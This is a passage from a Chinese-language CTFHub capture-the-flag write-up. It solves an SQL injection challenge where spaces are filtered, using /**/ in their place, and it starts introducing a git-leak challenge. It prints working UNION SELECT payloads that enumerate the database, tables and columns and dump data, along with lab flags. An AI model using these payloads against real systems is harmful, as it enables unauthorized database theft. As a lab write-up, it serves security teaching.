 提交`ctfhub{e82d7ab14d58dd03f08c3ce4}`即可。

------

#### 过滤空格

输入1试试？输入1后有俩行回显：一行`ID`一行`Data`。

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/空格过滤/1.png)

当`sql`中的空格被过滤时可以用`/**/`来代替。`database()`回显当前连接的数据库，用以下代码可以查询到当前数据库为`sqli`：

```sql
-1/**/union/**/select/**/1,database()
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/空格过滤/2.png)

`group_concat()`把产生的同一分组中的值用`,`连接并形成一个字符串，`information_schema.tables`存了`mysql`所有的表，`table_schema`是表对应的数据库名的字段，`table_name`和`table_schema`相对应，用以下代码能够查询到指定数据库的表信息：

```sql
-1/**/union/**/select/**/1,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='sqli'
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/空格过滤/3.png)

`information_schema.columns`存了表中所有列的信息，`table_name`和`table_schema`相对应，可以看到有个表叫`nbadikctna`，我们可以去查询该表的列信息：

```bash
-1/**/union/**/select/**/1,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='nbadikctna'
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/空格过滤/4.png)

最后输入以下代码根据`vuafekfves`字段可以查询到该字段的数据：

```sql
-1/**/union/**/select/**/1,group_concat(vuafekfves)/**/from/**/sqli.nbadikctna
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/空格过滤/5.png)

提交`ctfhub{12917a7f5475c0de901aec7c}`即可。

------

### 信息泄露

#### Git泄露

##### Log

> 当前大量开发人员使用git进行版本控制，对站点自动部署。如果配置不当,可能会将.git文件夹直接部署到线上环境。这就引起了git泄露漏洞。请尝试使用BugScanTeam的GitHack完成本题
